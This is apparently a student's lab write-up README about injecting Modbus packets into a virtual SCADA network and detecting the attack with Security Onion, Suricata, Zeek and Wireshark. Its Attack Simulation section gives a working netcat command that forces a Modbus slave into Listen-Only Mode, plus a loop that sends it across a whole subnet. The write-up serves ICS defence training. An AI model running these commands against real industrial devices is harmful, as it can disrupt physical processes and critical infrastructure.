



# SCADA Modbus Attack Detection - ICS Security Monitoring with Security Onion

A hands-on OT/ICS security lab simulating a Modbus packet injection attack against a SCADA environment and detecting the malicious activity using Security Onion, Suricata, Zeek, and Wireshark - demonstrating core industrial control system threat detection workflows.

---

## Lab Environment

| System | Role |
|---|---|
| Security Onion | Network monitoring & IDS |
| Modsak1 | Modbus Slave device |
| Modsak2 | Modbus Master controller |

**Network Configuration**

| Adapter | Purpose |
|---|---|
| Host-Only | Internal SCADA network communication between all VMs |
| Bridged (Security Onion only) | System updates and external access |

---

## Security Onion Configuration

Security Onion was configured to monitor SCADA traffic before the attack simulation:

1. Accessed the Security Onion web interface and created a network sensor
2. Enabled **Suricata** for signature-based intrusion detection
3. Enabled **Zeek** for deep packet inspection and protocol analysis
4. Authored a **custom Suricata rule** to detect suspicious Modbus commands

---

## SCADA Communication Baseline

Before launching the attack, normal Modbus communication between master and slave was verified to establish a clean baseline.

**Test command:** Report Slave ID (Modbus Function Code 0x11)

Wireshark confirmed:
- Successful communication between Modsak2 → Modsak1
- Correct Modbus packet structure
- Hex payload values recorded for attack simulation reference



---

## Attack Simulation

### Modbus Packet Injection - Listen-Only Mode

A malicious Modbus packet was crafted to force the slave device into **Listen-Only Mode**, disabling its responses and severing SCADA communication.

**Attack method:** Netcat with a predefined hex payload targeting port 502

```bash
printf '\x00\x02\x00\x00\x00\x02\x01\x11\x08\x04' | nc 192.168.255.x 502
```

**Result:**
- Modsak1 entered Listen-Only Mode
- Slave stopped responding to the master controller
- SCADA communication fully disrupted
- Security Onion logged the malicious traffic

### Automated Subnet-Wide Attack Script

To simulate a larger-scale ICS attack, the injection was automated across an entire subnet - replicating how an attacker would sweep for exposed Modbus devices:

```bash
for i in {1..254}; do
  echo "Attacking 192.168.255.$i"
  printf '\x00\x02\x00\x00\x00\x02\x01\x11\x08\x04' | nc 192.168.255.$i 502
done
```

Security Onion logs captured multiple injection attempts across the subnet, demonstrating the scale potential of protocol-level ICS attacks.



---

## Detection Results

### Suricata
- Custom rule triggered on malicious Modbus function code
- Intrusion alerts generated for each injection attempt
- Subnet sweep flagged as repeated anomalous activity

### Zeek
- Industrial protocol traffic analyzed at packet level
- Abnormal Modbus communication patterns logged
- Connection metadata recorded for forensic timeline

### Wireshark
- Attack payload structure verified at hex level
- Confirmed transmission of malicious Modbus packet
- Packet capture validated detection accuracy



---

## MITRE ATT&CK for ICS Mapping

| Technique | ID | Evidence |
|---|---|---|
| Modify Parameter | T0836 | Modbus command forced slave into Listen-Only Mode |
| Network Scanning | T0840 | Automated subnet sweep across all 254 hosts on port 502 |
| Exploitation of Remote Services | T0866 | Unauthenticated Modbus command accepted by slave |
| Denial of Service | T0814 | SCADA communication disrupted via Listen-Only Mode |
| Commonly Used Port | T0885 | Attack transmitted over Modbus default port 502 |

---

## Key Vulnerability - Unauthenticated Modbus Protocol

Modbus has **no built-in authentication or encryption**. Any device on the network can send arbitrary function codes to a Modbus slave — no credentials required. This is the fundamental weakness exploited in this lab and a systemic issue across legacy ICS environments still running Modbus, DNP3, and similar protocols.

---

## Defensive Recommendations

| Control | Purpose |
|---|---|
| Network segmentation (IT/OT isolation) | Prevent attackers from reaching ICS devices from corporate network |
| ICS-aware IDS (Suricata custom rules) | Detect abnormal Modbus function codes and command sequences |
| Allowlist legitimate Modbus masters | Block commands from unauthorized source IPs |
| Protocol-level monitoring (Zeek) | Log all Modbus traffic for anomaly detection and forensics |
| Disable unused Modbus function codes | Reduce attack surface at the device configuration level |
| Deploy Modbus firewall / protocol gateway | Enforce command validation before packets reach slave devices |

---

## Challenges & Resolutions

| Issue | Resolution |
|---|---|
| `No Route to Host` error | Verified all VMs in Host-Only mode, restarted network services |
| Security Onion not capturing Modbus traffic | Confirmed correct monitoring interface, restarted sensor |
| Suricata alerts not triggering | Adjusted detection thresholds, replayed attack traffic to verify |

---

## Key Takeaway

Legacy ICS protocols like Modbus were designed for reliability in isolated environments - not for security in networked ones. The absence of authentication means any device on the network can issue commands with full authority over industrial equipment. This lab demonstrates that even basic network monitoring with open-source tools like Security Onion can surface these attacks but prevention requires segmentation and protocol-level controls, not detection alone.

---

## Skills Demonstrated

`ICS/OT Security` `SCADA Monitoring` `Modbus Protocol Analysis` `Security Onion Deployment` `Custom Suricata Rule Creation` `Zeek Network Analysis` `Wireshark Packet Inspection` `Bash Scripting` `MITRE ATT&CK for ICS` `Incident Detection`

---

> All attack activity was performed in an isolated virtual lab environment. No real industrial systems were involved.

**Author:** Durga Sai Sri Ramireddy | MS Cybersecurity, University of Houston  
[](https://linkedin.com/in/durga-ramireddy)
[](https://github.com/DurgaRamireddy)
